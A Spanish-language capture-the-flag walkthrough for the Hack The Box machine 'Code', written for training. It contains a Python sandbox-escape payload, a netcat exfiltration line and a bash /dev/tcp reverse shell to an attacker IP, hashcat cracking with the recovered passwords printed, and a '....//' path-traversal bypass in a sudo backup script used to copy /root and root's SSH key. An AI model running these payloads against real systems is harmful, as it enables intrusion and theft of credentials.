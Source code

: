  - - -- - - - - 
- Tags: #Linux #Easy 
- Skills Required: #Basic-Enumeration-Skills #Python-Scripting 
- Skills Learned: #Python-Jail-Bypass #Basic-Reversing
- - - - 
# Descripción:
Code es una máquina Linux sencilla con una aplicación web de edición de código Python, vulnerable a la ejecución remota de código al omitir la cárcel de Python. Tras obtener acceso como usuario appproduction, se pueden encontrar credenciales descifrables en un archivo de base de datos sqlite3. Con estas credenciales, se otorga acceso a otro usuario, martin, que tiene permisos de sudo para un script de utilidad de copia de seguridad, backy.sh. Este script incluye una sección de código vulnerable que, al ser explotada, permite escalar nuestros privilegios creando una copia de la carpeta raíz.
 -- - - - -
# Enumeración:
- - - - - 
Al realizar nuestro escaneo de Nmap para buscar puertos abiertos `nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn <IP>`, encontramos dos puertos abiertos:
- El 22 -> SSH
- El 5000 -> HTTP (gunicorn 20.0.4)
A continuación vamos a visitar el sitio web `http://code.htb`, previamente añadido al archivo /etc/hosts, al ver el sitio web nos encontramos son un editor de python online (sandbox), con funcionalidades como ejecutar código en Python y guardarlo en nuestra cuenta dentro del sitio web. Al ver esto se nos ocurre que quizás podríamos ejecutar código en la máquina host.
------
# Explotación:
- - - - 

Como se nos permite ejecutar código directamente, la función de guardar no es necesaria a no ser que quieras guardar tu trabajo. En primer lugar intentamos cargar módulos como `import`, `os`, `sys`, ya que estos nos permiten interactuar con el sistema, en este caso la máquina host. Al ejecutarlo nos aparece el siguiente mensaje "Use of restricted keywords is not allowed".
Ante esta situación lo próximo que pensamos en en alguna forma de bypassear el filtro, leyendo un artículo de [Medium Python Bypass](https://medium.com/soulsecteam/some-simple-bypass-tricks-8f02455b098d), es aquí donde encontramos una forma de usar los módulos necesarios para ejecutar comandos.
```python
[w for w in 1..__class__.__base__.__subclasses__() if w.__name__=='Quitter']
[0].__init__.__globals__['sy'+'s'].modules['o'+'s'].__dict__['sy'+'stem']
('whoami')
```
Este código bypasea la restricted keywords utilizando los objetos y subclases de Python para localizar la clase 'Quitter'. Esto nos permite acceder a '`__globals__`' desde el método '`__init__`', que nos permite el acceso a '`sys.modules`' desde donde se recupera '`os.system`'.
Todo esto nos permite ejecutar comandos de shell en la máquina víctima sin necesidad de usar la restricted keywords, ya que se usa la concatenación de cadenas de texto como ('o' + 's').

Al ejecutar el código no recibimos ningún output, lo que sugiere que el código se está ejecutando en el host y este no llega a volver al frontend. Para comprobar si esto es realmente lo que sucede, vamos a redirigir el output del comando ejecutado a nuestra máquina atacante, en la que debemos estar a la escucha.
En la máquina atacante: `nc -nlvp 4444`

Ahora debemos modificar el código para redirigirlo a nuestro equipo:
```python
[w for w in 1..__class__.__base__.__subclasses__() if w.__name__=='Quitter']
[0].__init__.__globals__['sy'+'s'].modules['o'+'s'].__dict__['sy'+'stem']('whoami
| nc {YOURIPADDRESS} 4444')
```
Al ejecutarlo vemos que la respuesta nos llega a nuestro equipo y vemos que el usuario encargado de ejecutarlo es 'app-production'.

Una vez que hemos comprobado que tenemos capacidad de ejecución de comandos en la máquina víctima podemos entablar una reverse shell a nuestra máquina de atacante:
```python
[w for w in 1..__class__.__base__.__subclasses__() if w.__name__=='Quitter']
[0].__init__.__globals__['sy'+'s'].modules['o'+'s'].__dict__['sy'+'stem']('bash -
c "bash -i >& /dev/tcp/{YOURIPADDRESS}/4444 0>&1"')
```
Con esto nos encontramos dentro del sistema como el usuario 'app-production', encontraremos la flag en su directorio de trabajo (/home/app-production).
- - - - - -
# Movimiento Lateral:
 - - - - -

Con el acceso al sistema, lo que debemos hacer es enumerar los directorios y archivos a los que tengamos acceso, dentro del directorio `/app/instance` vemos una base de datos que puede ser abierta con `sqlite3` o transferida a nuestra máquina. Si la abrimos con `sqlite3 database.db`, listamos las tablas con `.tables`, nos metemos dentro de user con `selct * from user;`, aquí vemos dos nombres de usuario con su respectivo hash.
Copiamos los hashes en un archivo hash.txt en nuestra máquina atacante, para crackearlos con hashcat `hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt`. Una vez finalizado el ataque vemos que para el usuario **development** su password es **development** y para **martin** es **nafeelswordsmaster**.

Como 'app-production' leemos el archivo '/etc/passwd' y observamos que martin es un usuario del sistema. Ahora migramos al usuario 'martin' con `ssh martin@code.htb` y proporcionamos su password.
- -- - - 
# Elevación de Privilegios:
- - - - -

En primer lugar listamos los privilegios a nivel de sudoers y vemos que martin puede ejecutar un script en bash '/usr/bin/backy.sh' sin proporcionar contraseña, al hacer `sudo /usr/bin/backy.sh` vemos que es necesario un archivo task.json.
En la carpeta backups dentro del directorio de martin encontramos un archivo task.json, revisando su contenido vemos que podemos especificar el directorio a archivar y donde se ubicará.
Revisaremos el script backy.sh para buscar algún código vulnerable o entender como crea los archivos.

El script tiene dos capas de filtrado para limitar los directorios que se pueden archivar. El filtro 'allowed_paths' permite rutas que comiencen por '/var' o '/home', es llamado por la función 'is_allowed_paths'.
El segundo filtro sanitiza la entrada JSON eliminando '../' (ir directorios hacia atrás), pero lo elimina la instancia de forma literal no recursiva, por lo tanto si utilizamos '....//' nos permite omitir esta comprobación, ya que elimina la primera instancia, pero no las restantes.
Podemos indicar el directorio '/home' y usando '....//' nos ubicamos dentro de '/root' de tal forma que archivaremos todo el contenido del directorio. Para ello modificamos el archivo 'task.json':
```json
{
	"destination": "/tmp",
	"multiprocessing": true,
	"verbose_log": true,
	"directories_to_archive": [
		"/home/....//root/"
	]
}
```
Esto le indica a backy.sh que archive '/root' y lo deposite en /tmp.
Ahora nos movemos a '/tmp' con `cd /tmp` y al listar el contenido con `ls -l` vemos el archivo '`code_home_.._root_2025_June.tar.bz2`'.

Al descomprimirlo tendremos acceso a todo los directorios y archivos del directorio '/root' `tar -xvf code_home_.._root_2025_June.tar.bz2`.
Ya tenemos acceso a la flag pero si queremos terminar la escalada podemos utilizar la id_rsa de root, leemos el archivo `cat .ssh/id_rsa` y lo copiamos a un archivo llamado root.key en nuestra máquina de atacante, le damos permisos con `chmod 600 root.key` y finalmente nos registramos por ssh con `ssh -i root.key root@code.htb`.
Hemos logrado total acceso al sistema y encontramos la flag en '/root/root.txt'
